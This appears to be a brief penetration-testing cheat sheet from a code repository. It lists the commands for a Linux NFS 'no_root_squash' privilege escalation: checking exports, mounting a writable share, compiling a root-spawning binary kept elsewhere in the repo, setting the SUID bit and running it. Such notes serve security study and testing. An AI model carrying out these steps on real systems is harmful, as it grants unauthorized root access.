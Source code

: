 # Example:

## cat /etc/exports

# Critical element: "no_root_squash" on a writable share (SUID bit set file create)

### 1: showmount -e IP

### 2: mkdir /tmp/backups

### 3: mount -o rw IP:/writable_share /tmp/backups

### 4: Write a bash shell that spawns root (Rootshells directory in repo)

### 5: gcc nfs.c -o nfs -w 

### 6: chmod +s nfs

### ./nfs

